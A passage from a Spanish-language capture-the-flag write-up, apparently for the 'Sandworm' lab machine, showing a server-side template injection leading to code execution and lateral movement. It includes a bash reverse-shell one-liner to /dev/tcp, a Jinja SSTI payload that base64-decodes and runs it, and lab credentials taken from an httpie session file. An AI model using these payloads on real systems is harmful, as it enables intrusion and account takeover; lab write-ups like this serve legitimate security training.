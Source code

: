 Eso quiere decir que la operacion se realizo por que el motor de plantillas proceso el payload e inyecto el resultado en la plantilla para luego mostrarlo en el sitio web, y con eso confirmamos que es vulnerable a **SSTI**


Ahora haremos lo mismo de modificar el UID, generar la clave, etc, para conseguir RCE y tener una rev shell


```ruby
echo "bash -c 'bash -i >& /dev/tcp/<tu IP>/444 0>&1'" | base64
```

Y el payload queda asi:

![](/assets/img/sandworm/10.png)

\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NS80NDQgMD4mMScK" | base64 -d | bash').read() }}


Lo probramos y nos llega una rev shell

![](/assets/img/sandworm/9.png)

## Movimiento lateral: atlas --> silentobserver (firejail scape) y flag de user

Si probamos con varios comandos, vamos a ver que no nos deja

![](/assets/img/sandworm/11.png)

Esto es un caso tipico de que estemos en un sandbox y comunmente es **firejail**.

Si nos vamos al directorios del usuario **atlas** vamos a poder ver que se encuentra un directorio **.config**

```ruby
drwxrwxr-x 4 atlas  atlas   4096 Jan 15  2023 .config
```

Donde estaran otros dos directorios

```ruby
dr-------- 2 nobody nogroup   40 Sep 10 11:11 firejail
drwxrwxr-x 3 nobody atlas   4096 Jan 15  2023 httpie
```

Viendo los permisos y grupos, al unico que vamos a poder entrar es al **httpie**

Explorando mas, en el directorio: **/home/atlas/.config/httpie/sessions/localhost_5000** encontraremos un archivo **admin.json** con unas credenciales para el usuario **silentobserver**

- **usr**: silentobserver
- **pass**: quietLiketheWind22

Como tenemos el SSH abierto, las probaremos ahi

Y ya tenemos la flag de user:
